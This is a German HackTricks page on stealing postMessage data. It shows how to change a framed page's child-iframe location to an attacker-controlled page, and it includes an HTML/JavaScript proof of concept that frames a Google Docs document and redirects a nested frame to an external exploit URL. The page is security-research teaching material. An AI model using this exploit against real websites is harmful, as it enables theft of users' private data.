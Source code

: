 # Steal postmessage modifying iframe location

{{#include ../../banners/hacktricks-training.md}}

## Ändern der Standorte von Kind-IFRAMES

Laut [**diesem Bericht**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) kann man, wenn man eine Webseite ohne X-Frame-Header, die ein anderes iframe enthält, in ein iframe einfügen kann, **den Standort dieses Kind-IFRAMES ändern**.

Zum Beispiel, wenn abc.com efg.com als iframe hat und abc.com keinen X-Frame-Header hat, könnte ich efg.com zu evil.com über verschiedene Ursprünge mit **`frames.location`** ändern.

Dies ist besonders nützlich bei **postMessages**, da, wenn eine Seite sensible Daten mit einem **Wildcard** wie `windowRef.postmessage("","*")` sendet, es möglich ist, **den Standort des zugehörigen iframes (Kind oder Elternteil) auf einen vom Angreifer kontrollierten Standort zu ändern** und diese Daten zu stehlen.
```html
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
//pseudo code
setTimeout(function () {
exp()
}, 6000)

function exp() {
//needs to modify this every 0.1s as it's not clear when the iframe of the iframe affected is created
setInterval(function () {
window.frames[0].frame[0][2].location =
"https://geekycat.in/exploit.html"
}, 100)
}
</script>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
